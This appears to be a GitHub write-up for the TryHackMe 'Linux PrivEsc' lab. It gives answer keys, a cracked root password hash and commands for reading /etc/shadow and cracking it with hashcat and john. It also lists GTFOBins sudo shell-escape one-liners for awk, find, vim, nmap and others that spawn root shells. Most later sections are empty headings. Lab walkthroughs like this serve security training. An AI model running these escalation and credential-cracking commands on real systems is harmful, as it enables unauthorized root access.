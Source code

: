 ![Windows PrivEsc Banner](https://i.imgur.com/RuMC2vG.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/linuxprivesc/Linux_Priv_Esc_Cover.png" alt="Linux PrivEsc Logo">
</p>

# Linux PrivEsc

This guide contains the answer and steps necessary to get to them for the [Linux PrivEsc](https://tryhackme.com/room/linuxprivesc) room.

## Table of contents

- [Deploy the Vulnerable Debian VM](#deploy-the-vulnerable-debian-vm)
- [Service Exploits](#service-exploits)
- [Weak File Permissions - Readable /etc/shadow](#weak-file-permissions---readable-etcshadow)
- [Weak File Permissions - Writable /etc/passwd](#weak-file-permissions---writable-etcshadow)
- [Sudo - Shell Escape Sequences](#sudo---shell-escape-sequences)
- [Sudo - Environment Variables](#sudo---environment-variables)
- [Cron Jobs - File Permissions](#cron-jobs---file-permissions)
- [Cron Jobs - PATH Environment Variable](#cron-jobs---path-environment-variable)
- [Cron Jobs - Wildcards](#cron-jobs---wildcards)
- [SUID / SGID Executables - Known Exploits](#suid--sgid-executables---known-exploits)
- [SUID / SGID Executables - Shared Object Injection](#suid--sgid-executables---shared-object-injection)
- [SUID / SGID Executables - Environment Variables](#suid--sgid-executables---environment-variables)
- [SUID / SGID Executables - Abusing Shell Features (#1)](#suid--sgid-executables---abusing-shell-features-1)
- [SUID / SGID Executables - Abusing Shell Features (#2)](#suid--sgid-executables---abusing-shell-features-2)
- [Passwords & Keys - History Files](#passwords--keys---history-files)
- [Passwords & Keys - Config Files](#passwords--keys---config-files)
- [Passwords & Keys - SSH Keys](#passwords--keys---ssh-keys)
- [NFS](#nfs)
- [Kernel Exploits](#kernel-exploits)
- [Privilege Escalation Scripts ](#privilege-escalation-scripts)

### Deploy the Vulnerable Debian VM

**Username:** user

**Password:** password321

https://www.exploit-db.com/exploits/1518

### Service Exploits

*Read and follow along with the above.*

### Weak File Permissions - Readable /etc/shadow

ssh user@10.10.42.225
ls -lh /etc/shadow
cat /etc/shadow
su -u root
hashcat -m 1800 password.hash /usr/share/wordlists/rockyou.txt
john --wordlist=/usr/share/wordlists/rockyou.txt password.hash


1. What is the root user's password hash?

   

   ><details><summary>Click for answer</summary>$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0</details>

2. What hashing algorithm was used to produce the root user's password hash?

   

   ><details><summary>Click for answer</summary>sha512crypt</details>

3. What is the root user's password?

   

   ><details><summary>Click for answer</summary>password123</details>

### Weak File Permissions - Writable /etc/shadow



*Read and follow along with the above.*

### Weak File Permissions - Writable /etc/passwd

1. Run the "id" command as the newroot user. What is the result?

   ![]()

   ><details><summary>Click for answer</summary>uid=0(root) gid=0(root) groups=0(root)</details>

### Sudo - Shell Escape Sequences



1. How many programs is "user" allowed to run via sudo? 

   We can use `sudo -l` to view all the executables we can run with sudo.
   
   ![]()
   
   ><details><summary>Click for answer</summary>11</details>
   
2. One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?

   After going through the entire list in GTFOBins, there is one binary that was not listed on the website.
   
   ><details><summary>Click for answer</summary>apache2</details>

We can use (https://gtfobins.github.io/) to find out how to get an elevated shell with each binary.

**awk**

```cmd
sudo awk 'BEGIN {system("/bin/sh")}'
```

![]()

**iftop**

```cmd
sudo iftop
!/bin/sh
```

![]()
   
**find**

```cmd
sudo find . -exec /bin/sh \; -quit
```

![]()

**ftp**

```cmd
sudo ftp
!/bin/sh
```

![]()

**less**

```cmd
sudo less /etc/profile
!/bin/sh
```

![]()

**man**

```cmd
sudo man man
!/bin/sh
```

![]()

**more**

```cmd
TERM= sudo more /etc/profile
!/bin/sh
```

![]()

**nano**

```cmd
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

![]()

**nmap**

```cmd
sudo nmap --interactive
nmap> !sh
```

![]()

**vim**

```cmd
sudo vim -c ':!/bin/sh'
```
![]()

*Consider how you might use this program with sudo to gain root privileges without a shell escape sequence.*
   
https://touhidshaikh.com/blog/2018/04/abusing-sudo-linux-privilege-escalation/

### Sudo - Environment Variables
### Cron Jobs - File Permissions
### Cron Jobs - PATH Environment Variable
### Cron Jobs - Wildcards
### SUID / SGID Executables - Known Exploits
### SUID / SGID Executables - Shared Object Injection
### SUID / SGID Executables - Environment Variables
### SUID / SGID Executables - Abusing Shell Features (#1)
### SUID / SGID Executables - Abusing Shell Features (#2)
### Passwords & Keys - History Files
### Passwords & Keys - Config Files
### Passwords & Keys - SSH Keys
### NFS
### Kernel Exploits
### Privilege Escalation Scripts 
